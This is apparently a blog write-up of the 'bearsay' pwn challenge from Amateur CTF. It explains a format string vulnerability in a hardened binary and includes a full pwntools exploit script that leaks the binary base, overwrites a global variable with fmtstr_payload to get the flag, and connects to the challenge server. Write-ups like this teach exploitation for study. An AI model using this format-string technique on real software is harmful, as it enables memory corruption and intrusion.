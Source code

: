```yaml
---
layout: post
title: Amateur CTF | Bearsay
date: 2024-04-12
tags: ['Amateur CTF']
---
```

# PWN/bearsay

In this challenge we were given an elf file with `PIE,NX,canary and full RELRO enabled` , literally all the permissions were green.
But after decompiling the execuatable with GHIDRA , we found a global variable named is_mother_bear ,
basically if anyhow the value of `is_mother_bear` becomes  `0xbad0bad`  we get the flag.

but how? there exist a printf vulnerability or more specifically Format String vulnerability.

So, the path of exploitation should be like this:-

1- leak the `Base address` of the binary.
2- Change the value of global variable `is_mother_bear` to `0xbad0bad`

Since the program is being run inside a while loop we can use the format string vulnerabilty as many times as we can.
but we only need it for two times.

Fist we leak any binary address of the executable with the help of format string specifier(`%p,%x `etc.) then we can find the base address of the binary

after that with the help of pwntools inbuilt function `fmtstr_payload` we can change the value associated with the address of is_mother_bear to any diserable value.

And wollah!!! we get the flag.

```python
#!/usr/bin/env python3

from pwn import *

elf = context.binary=ELF("./chal_patched")
libc = ELF("./lib/libc.so.6")
ld = ELF("./lib/ld-linux-x86-64.so.2")

r=remote("chal.amt.rs", "1338")
r.sendlineafter(b": ",b'%15$p.%3$p')

print(r.recvline())
k=r.recvline().split(b'.')
leak = int(k[0][2:].decode(),16)
print(hex(leak))

elf.address = leak - elf.sym.main - 702
print(hex(elf.address))

print(hex(elf.sym.is_mother_bear))
payload = fmtstr_payload(22,{elf.sym['is_mother_bear'] : 0xbad0bad },write_size='short')


r.sendlineafter(b': ',payload)

r.sendlineafter(b': ',b'flag')
r.interactive()
r.close()

```

after running this script we get the flag:- `amateursCTF{bearsay_mooooooooooooooooooo?}`